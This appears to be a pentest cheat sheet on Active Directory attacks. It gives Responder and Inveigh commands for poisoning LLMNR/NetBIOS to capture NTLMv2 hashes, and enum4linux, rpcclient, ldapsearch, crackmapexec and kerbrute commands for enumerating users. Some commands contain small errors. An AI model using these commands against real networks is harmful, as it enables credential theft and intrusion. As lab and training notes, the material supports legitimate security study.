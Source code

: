 ## Capturing NTLMv2 Hashes

The Link Local Multicast Name Resolution (LLMNR) and NetBIOS are components which searches through the different hosts to find a specific IP-address once the DNS fails. An example of this is when a user tries to find the file-share using `\\husenjan\share` instead of `\\hhesenjan.local\share` the DNS will fail to resolve the IP-address and the LLMNR and NetBIOS will go through the different hosts to find the IP-address. 

The `responder` and `Inveigh.exe` tools enables us to spoof and respond to the LLMNR and NetBIOS traffic as if they have the answer for the requesting host. This will enable us to capture the NTLMv2 hash of the user which mistyped the hostname and then we can start cracking the NTLMv2 hash offline to obtain the password.

```shell title="Linux: Responder"
# Responder: Capturing NTLMv2 Hashes
sudo responder -I '<ETHERNET>'
```

```powershell title="Windows: Inveigh"
# Inveigh: Capturing NTLMv2 hashes (administrator privileges required)
.\Inveigh.exe

# Inveigh PowerShell: Capturing NTLMv2 hashes
Import-Module .\Inveigh.ps1
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

It's common for users to mistype hostnames therefore it's always recommended to have `responder` or `Inveigh` running in the background while enumerating through other systems and hosts. It's also highly recommended to disable LLMNR and NetBIOS unless the organization uses these services in some form.

## Username Spraying

Username Spraying is a technique that enables us to find usernames of the users inside the Active Directory environment. It's also possible for us to use SMB null sessions and query LDAP anonymously to obtain valid usernames.

```shell title="Username Spraying"
# Obtaining usernames with enum4linx using SMB service with null session
enum4linux -U '<RHOST>'

# Obtaining usernames with RPCClient using SMB service with null session
rpcclient -U '' -N '<RHOST>'
enumdomusers

# Obtaining usernames with LDAPSearch by quering LDAP as anonymous user
ldapsearch -h '<RHOST>' -x -b 'DC=COMPANY,DC=LOCAL' -s sub "(&(objectclass=user))" | grep sAMAccountName | cut -f 2 -d ' '

# Obtaining usernames with crackmapexec by performing a brute-force attack
crackmapexec smb '<RHOST>' -u '<USERNAME>' -p '<PASSWORD>' -users

# Obtaining usernames with kerbrute by performing a brute-force attack
kerbrute userenum -d inlanefreight.htb --dc '<IP>' jsmith.txt`
```
